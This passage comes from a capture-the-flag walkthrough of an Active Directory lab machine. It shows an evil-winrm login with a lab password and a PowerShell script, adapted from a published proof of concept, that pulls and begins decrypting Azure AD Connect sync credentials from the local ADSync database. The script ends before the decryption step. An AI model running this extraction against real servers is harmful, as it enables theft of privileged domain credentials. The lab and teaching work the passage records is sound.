 I first marked account **SABatchJobs** and **mhope** marked.

Both accounts had nothing on **outbound object control**.

Checking on route from account **mhope** to **administrator**, I see a valid path.

![](https://i.imgur.com/PfY5KMH.png)

I tried on following Bloodhound's recommendation to exploit this but it didn't work out -> **FAILED**
### Evil-Winrm
Now that I have tried everything without shell connection, I moved on to enumerating the system through **evil-winrm**:

`evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'`
### Azure AD Sync Exploit
Checking on account mhope on system, I saw it is a member of **Azure Admin**, which is not very common:

`net user mhope`
![](https://i.imgur.com/RDqD1xZ.png)

On **C:\Program Files**, I can see there are directories related to **Azure AD**:

![](https://i.imgur.com/VH8n98U.png)

From some research, I discovered [this blog](https://blog.xpnsec.com/azuread-connect-for-redteam/?ref=t3chnocat.com), which talked in depth about **AD Connect Azure Sync Credential Extraction**.

The idea is that there is a user that is setup to handle replication of Active Directory to Azure. It turns out mhope is able to connect to the local database and pull the configuration. I can then decrypt it and get the username and password for the account that handles replication.

I slightly modified the script found from the blog above:

1. Remove the '@_xpn_' from this line: Write-Host “AD Connect Sync Credential Extract POC (@xpn)\n”
2.  The connection string should be $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=LocalHost;Database=ADSync;Trusted_Connection=True;"

Below is the modified script:

```powershell
Write-Host "AD Connect Sync Credential Extract POC ()`n"
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=LocalHost;Database=ADSync;Trusted_Connection=True;"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()
add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
```